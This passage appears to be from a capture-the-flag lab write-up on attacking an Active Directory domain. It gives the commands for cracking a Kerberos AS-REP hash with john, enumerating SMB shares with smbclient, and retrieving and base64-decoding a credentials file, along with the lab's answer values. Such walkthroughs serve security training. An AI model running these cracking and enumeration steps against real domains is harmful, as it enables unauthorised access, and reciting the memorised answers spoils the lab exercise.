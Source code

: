 - https://hashcat.net/wiki/doku.php?id=example_hashes
- Kerberos 5, etype 23, AS-REP

**What mode is the hash?**

- https://hashcat.net/wiki/doku.php?id=example_hashes
- 18200

**Now crack the hash with the modified password list provided, what is the user accounts password?**

- ``john --wordlist=passwordlist.txt --format=krb5asrep hash.txt``
- management2005

* * * 

## Task 5 Exploitation Abusing Kerberos

##  Enumeration:

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

``man smbclient``

##   Answer the questions below

**What utility can we use to map remote SMB shares?**

- ``smbclient``

**Which option will list shares?**

- ``-L``

**How many remote shares is the server listing?**

- ``smbclient -L \\\\10.10.132.136 --workgroup=spookysec.local -U "svc-admin"``
- 6 shares

**There is one particular share that we have access to that contains a text file. Which share is it?**

- ``smbclient \\\\10.10.132.136\\backup\\ --workgroup=spookysec.local -U "svc-admin"``

**What is the content of the file?**

- ``mget backup_credentials.txt``
- YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

**Decoding the contents of the file, what is the full contents?**

- base64 decrypt = ``backup@spookysec.local:backup2517860``

* * * 

## Task 7 - Domain Privilege Escalation - Elevating Privileges within the Domain 
